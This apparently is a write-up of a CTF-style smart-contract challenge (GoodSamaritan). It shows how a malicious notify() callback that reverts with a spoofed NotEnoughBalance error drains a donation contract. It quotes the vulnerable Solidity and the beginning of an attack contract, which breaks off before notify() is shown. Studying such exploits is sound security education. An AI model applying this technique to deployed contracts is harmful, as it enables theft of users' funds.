 We see that the `Coin` contract is initialised with 1 million balance. Our goal is to drain all these tokens from the contract. In the `GoodSamaritan` contract, we see that there is a `requestDonation()` function which sends either 10 or all of the tokens to `msg.sender`. This is promising.

- In the `Wallet` contract, notice that when the balance is < 10, we `revert NotEnoughBalance()`, which is caught in the try-catch within `requestDonation()` triggering `wallet.transferRemainder(msg.sender)`
- Ideally, we would like to return the same `revert NotEnoughBalance()` error even when the balance is 1 million.

```solidity
function donate10(address dest_) external onlyOwner {
    // check balance left
    if (coin.balances(address(this)) < 10) {
        revert NotEnoughBalance();
    } else {
        // donate 10 coins
        coin.transfer(dest_, 10);
    }
}
```

Thankfully, we see that the `Coin` contract’s `transfer` function has an exploitable feature (if the destination `_dest.isContract()` is true): `INotifyable(dest_).notify(amount_)`.

```solidity
//Coin's transfer function
function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];

    // transfer only occurs if balance is enough
    if(amount_ <= currentBalance) {
        balances[msg.sender] -= amount_;
        balances[dest_] += amount_;

        if(dest_.isContract()) {
            // notify contract (EXPLOIT HERE!!)
            INotifyable(dest_).notify(amount_);
        }
    } else {
        revert InsufficientBalance(currentBalance, amount_);
    }
}
```

All we need to do is deploy a malicious contract implementing `notify(amount)` which simply reverts as `revert NotEnoughBalance()`. However, we have to be careful with one detail: it must only revert when the `amount` parameters is 10 (or less). See below for code.

This is so that `wallet.donate10(msg.sender)` will get reverted on the try statement (since amount=10), but on the catch statement, the call `wallet.transferRemainder(msg.sender)` should be allowed to go through, which ends up executing `coin.transfer(attacker, amount=1000000)`. 

```solidity
contract AttackGoodSamaritan is INotifyable {

    address victim;
    error NotEnoughBalance();

    constructor (address _victim) {
        victim = _victim;
    }

    function attack() public{
        IGoodSamaritan g = IGoodSamaritan(victim);
        g.requestDonation();
    }

```